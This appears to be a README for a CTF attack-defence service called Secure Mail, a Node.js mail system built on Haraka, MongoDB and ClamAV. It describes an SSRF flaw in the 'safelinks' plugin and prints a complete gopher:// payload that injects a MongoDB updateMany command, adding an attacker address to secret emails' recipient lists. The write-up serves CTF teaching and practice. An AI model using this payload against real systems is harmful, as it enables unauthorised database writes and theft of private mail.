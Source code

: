 # Secure Mail

The service is a simple mail system.

It consists of two parts:
1. SMTP server that scans emails for malicious links and pass clean emails to user.
2. Web interface that allows users to view emails.

The checker put flags to emails. Teams should add themselves to the email's `rcpt_to` to steal flags.

The service is written on Node.JS and uses [Haraka](http://haraka.github.io/) as a SMTP server, [MongoDB](https://www.mongodb.com/) as a database and [ClamAV](https://www.clamav.net/) as an antivirus engine.
Haraka plugin uses `curl` to download files.

# Vulnerability

The primary way to steal flags is to exploit a SSRF vulnerability in Haraka plugin (`safelinks`).
An attacker can send an arbitrary MongoDB command via Gopher protocol.

For example, the attacker could send email with URL `gopher://mongodb:27017/1%47%01%00%00%0b%00%00%00%00%00%00%00%dd%07%00%00%01%00%00%00%01%d8%00%00%00%75%70%64%61%74%65%73%00%cc%00%00%00%03%71%00%21%00%00%00%02%73%75%62%6a%65%63%74%00%0f%00%00%00%53%65%63%72%65%74%20%6d%65%73%73%61%67%65%00%00%03%75%00%8f%00%00%00%03%24%61%64%64%54%6f%53%65%74%00%7f%00%00%00%03%72%63%70%74%5f%74%6f%00%71%00%00%00%02%6f%72%69%67%69%6e%61%6c%00%16%00%00%00%3c%68%61%63%6b%65%72%40%63%74%66%2e%68%69%74%62%2e%6f%72%67%3e%00%02%6f%72%69%67%69%6e%61%6c%5f%68%6f%73%74%00%0d%00%00%00%63%74%66%2e%68%69%74%62%2e%6f%72%67%00%02%68%6f%73%74%00%0d%00%00%00%63%74%66%2e%68%69%74%62%2e%6f%72%67%00%02%75%73%65%72%00%07%00%00%00%68%61%63%6b%65%72%00%00%00%00%08%6d%75%6c%74%69%00%01%08%75%70%73%65%72%74%00%00%00%00%55%00%00%00%02%75%70%64%61%74%65%00%06%00%00%00%69%6e%62%6f%78%00%08%6f%72%64%65%72%65%64%00%01%03%6c%73%69%64%00%1e%00%00%00%05%69%64%00%10%00%00%00%04%c8%0f%10%cd%9f%fa%42%65%8f%c5%47%49%d7%99%16%15%00%02%24%64%62%00%07%00%00%00%65%6d%61%69%6c%73%00%00%af%82%0c%ad` to execute command `db.inbox.updateMany({subject : "Secret message"}, { $addToSet: { rcpt_to: { "original" : "<hacker@ctf.hitb.org>", "original_host" : "ctf.hitb.org", "host" : "ctf.hitb.org", "user" : "hacker" } } })`.

The exploit can be found at [/sploits/secure-mail/secure-mail.exploit.py](../../sploits/secure-mail/secure-mail.exploit.py).
